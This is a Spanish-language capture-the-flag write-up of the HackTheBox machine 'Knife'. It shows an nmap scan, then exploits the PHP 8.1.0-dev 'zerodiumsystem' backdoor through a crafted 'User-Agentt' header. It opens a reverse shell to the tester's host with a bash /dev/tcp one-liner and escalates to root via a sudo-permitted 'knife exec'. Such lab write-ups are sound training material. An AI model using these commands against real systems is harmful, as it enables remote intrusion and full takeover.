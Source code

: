 ```yaml
---
layout: single
title: Knife HTB - WriteUp
excerpt: WriteUp de la máquina Knife de HTB.
date: 2023-02-28
classes: wide
header:
  teaser: /assets/images/Knife/Knife.png
  teaser_home_page: true
  icon: /assets/images/Knife/Knife.png
categories:
  - infosec
tags:
  - ctf
  - Linux                                                                                                                                                                                 
  - Writeup
  - Web                                                                                                                                                                                  
  - CVE                                                                                                                                                                                    
  - Sudo-Abuse
---
```



En el día de hoy estaremos resolviendo la máquina Knife de HackTheBox. Es una máquina Linux y su dirección IP es 10.10.10.242.

### Índice

1. [Ennumeración Inicial](#enumeración-inicial)
2. [Explotación Web](#explotación-web)
3. [Privesc](#privesc)

### Enumeración Inicial

Lo primero que haremos será una enumeración de los servicios expuestos que tiene la máquina. Para esa tarea usaremos nmap.

```bash
# Nmap 7.91 scan initiated Tue Feb 28 20:03:49 2023 as: nmap -sC -sV -Pn -oN Extraction -p22,80 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 28 20:04:00 2023 -- 1 IP address (1 host up) scanned in 10.55 seconds
```

Podemos ver que hay dos puertos abiertos... Un shh y una web que utliza el protocolo http. Si accedemos a la web podemos ver que no tiene enlaces, no tiene aparentemente nada. Utilicé curl para ver las cabeceras de la página.

```bash
❯ curl -I 10.10.10.242
HTTP/1.1 200 OK
Date: Tue, 28 Feb 2023 19:09:12 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

### Explotación Web

La versión del PHP me llamo la atención y la busqué en google. Tiene un backdoor que nos permite ejecutar comandos a nivel de sistema. Si utilizamos la cabecera:

> User-Agentt: zerodiumsystem('command');

Supuestamente podremos ejecutar comandos. Hagamos la prueba:

```bash
❯ curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"id\"');"                                                            
uid=1000(james) gid=1000(james) groups=1000(james)
```

Podemos ejecutar comandos a nivel de sistema, vamos a establecernos una revshell.

```bash
❯ curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.16.6/443 0>&1\"');"
```

### Privesc

Si miramos nuestro listener podemos ver que tenemos una revshell.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
10.10.10.242: inverse host lookup failed: Unknown host
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.242] 43344
bash: cannot set terminal process group (965): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

Le hacemos el tratamiento de la tty https://ironhackers.es/tutoriales/como-conseguir-tty-totalmente-interactiva/

Si enumeramos nuestros privilegios podemos darnos cuenta que podemos ejecutar  knife como root.

```bash
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Si ejeuctamos knife -h nos da el panel de ayuda, en el podemos encontrar lo siguiente:

```bash
james@knife:/$ /usr/bin/knife -h
** EXEC COMMANDS **                         
knife exec [SCRIPT] (options)
```

Podemos aprovecharnos de eso para ejecutar comandos, como tenemos permisos para ejecutarlo como root, podemos convertirnos en dicho usuario de la siguiente forma:

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
# bash
root@knife:/# 
```


Espero que te haya gustado esta máquina easy!

